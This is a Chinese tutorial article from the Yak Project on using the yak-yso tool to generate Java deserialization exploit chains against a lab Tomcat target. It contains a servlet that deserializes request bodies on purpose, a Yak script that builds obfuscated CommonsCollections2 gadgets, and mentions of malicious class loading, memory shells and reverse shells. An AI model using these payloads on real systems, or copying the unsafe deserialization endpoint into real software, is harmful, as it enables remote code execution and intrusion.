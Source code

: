 #  实战分享：用Yak-yso解决一些常见问题   
原创 Q16G  Yak Project   2024-07-05 17:31  
  
![](/articles/wechat2md-57d4b38fb5fac67b077017855ed50c43.gif)  
  
![](/articles/wechat2md-745a416755959ee18783119465b62896.jpeg)  
  
![](/articles/wechat2md-bb809a5b07aaa14d67aa9464ac9778cc.png)  
  
![](/articles/wechat2md-411aa97907db89f37dc1bb75d15f5690.png)  
![](/articles/wechat2md-e68fa6680255f3e874a3734616fceeeb.png)  
  
有同学常常使用yak-yso生成的时候，不关注java版本而使用了默认的（默认52也就是JDK1.8），会导致有些情况下，某些链子打不通的情况。（原因是：当版本进行升级的时候，有些内置函数、方法、接口都会做出改变）  
  
  
![](/articles/wechat2md-ce2201e6bb465e89a94d933943830f34.png)  
  
  
  
![](/articles/wechat2md-90238dcf9bbca5ac713633a8e479d9e3.png)  
![](/articles/wechat2md-22d138f36c4ce22aa8d876098fceb88b.png)  
  
  
yak-yso中内置了两种模式的反序列化链(漏洞点为反序列化的漏洞。以shiro为例)和恶意类加载(漏洞点为类加载的漏洞。这里就以fastjson为例)。  
> 而yak-yso还可以yak中的反连平台、webFuzzer进行同步使用  
下面就用一个小的靶场demo来进行简单说明  
  
![](/articles/wechat2md-36dad18c85659d1009f470e2b5c85e08.png)  
测试环境  

（1）启动tomcat
（2）导入maven（需要导入cc依赖）

    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>

（3）编写一个入口，如下 大致的意思为 request body的内容进行反序列化

    package com.example.Controller;
    
    import javax.servlet.*;
    import javax.servlet.http.*;
    import javax.servlet.annotation.*;
    import java.io.IOException;
    import java.io.ObjectInputStream;
    
    @WebServlet(name = "HelloServlet", value = "/api/HelloServlet")
    public class HelloServlet extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            ObjectInputStream objectInputStream = new ObjectInputStream(request.getInputStream());
            try {
                objectInputStream.readObject();
            } catch (ClassNotFoundException e) {
                throw new RuntimeException(e);
            } finally {
                objectInputStream.close();
            }
        }
    
        @Override
        protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            response.getWriter().write("hello");
        }
    }
**Yak-yso-attack**  
**具体使用**：  
这里就以urldns为例，使用yak-yso生成cc2-dnslog，我们可以配合yak中内置的dnslog来进行测试。我们发送数据包就可以成功进行复现。如图  
![](/articles/wechat2md-2a0714f68574639eac77d694e179376a.png)  
![](/articles/wechat2md-aac3ec3603d73c76e89be3da42da27f6.png)  
> 这里不仅限于使用dnslog，还可以启动反连服务器来进行漏洞验证。  
  
**内存加载恶意类**   
我们可以通过TemplateImplClassloader来进行类的内存加载，我们可以通过yak-yso不使用调用链的模式来生成恶意类，然后通过反序列化链进行加载，同时我们也可以生成通过类加载来注入内存马。  
> 当进行类加载的时候，java默认同一类加载一次，而yak-yso生成时候是同名的，所以有可能会出现二次加载不成功的问题，所以，类加载的时候要时刻注意名称的问题。  
 
我们这里以加载恶意类为例，可以用yso  
来生成恶意类，以RuntimeExec为例，输出为base64  
  
![](/articles/wechat2md-ecb90066e01ffcacc0126f5ab8a1abda.png)  
  
我们在选择利用链，使用cc2-->TemplateImplClassLoader  
 将base64恶意类填入生成hex  
然后发包即可。  
  
**和webfuzzer进行联动**  
  
上面每次发送都需要  生成-->填入参数-->..... 每次都需要经历重复性的操作，是非常繁琐的。可以使用web-fuzzer的热加载来完成。  
> 热加载文档(https://yaklang.io/products/Web%20Fuzzer/fuzz-hotpatch)  
  
  
  
我们只需要在热加载中用yak语言来进行编写代码即可。  
> 当返回是一个数组的时候， Web Fuzzer 会将数组中的每一个元素都作为值去发包。所以要转成hex然后再进行解码  
![](/articles/wechat2md-3720deb7be979b813b3d5c85dc4ec93f.png)  
```
handle = func(domain) {    gadgetObj = yso.GetGadget("CommonsCollections2",yso.useTemplate("DNSLog"),yso.obfuscationClassConstantPool(),yso.evilClassName("AaZszFvX"),yso.majorVersion(52),yso.useClassParam("domain",domain))~gadgetBytes = yso.ToBytes(gadgetObj,yso.dirtyDataLength(0))~return codec.EncodeToHex(gadgetBytes)}
handle = func(domain) {
    gadgetObj = yso.GetGadget("CommonsCollections2",yso.useTemplate("DNSLog"),yso.obfuscationClassConstantPool(),yso.evilClassName("AaZszFvX"),yso.majorVersion(52),yso.useClassParam("domain",domain))~
gadgetBytes = yso.ToBytes(gadgetObj,yso.dirtyDataLength(0))~
return codec.EncodeToHex(gadgetBytes)
}
```
![](/articles/wechat2md-8db572706c6c0baccb9ef3efbb24bca6.png)  
- shiro漏洞修改max-header(使用yak-yso中ModifyTomcatMaxHeaderSize  
来填入要修改header头的大小来进行修改)  
- 反弹shell（yak-yso中tcp-reverse） 
- 命令执行  
 
  
**END**  
**YAK官方资源**  
Yak 语言官方教程：  
https://yaklang.com/docs/intro/Yakit   
视频教程：  
https://space.bilibili.com/437503777Github  
下载地址：  
https://github.com/yaklang/yakitYakit  
官网下载地址：  
https://yaklang.com/Yakit  
安装文档：  
https://yaklang.com/products/download_and_install  
Yakit使用文档：  
https://yaklang.com/products/intro/  
常见问题速查：  
https://yaklang.com/products/FAQ  
  
![](/articles/wechat2md-8764ec1e71cc199b4b0b0bfb3a12e542.other)  
  
![](/articles/wechat2md-304b45488320344b4c7cdbd5759ee4e8.gif) 
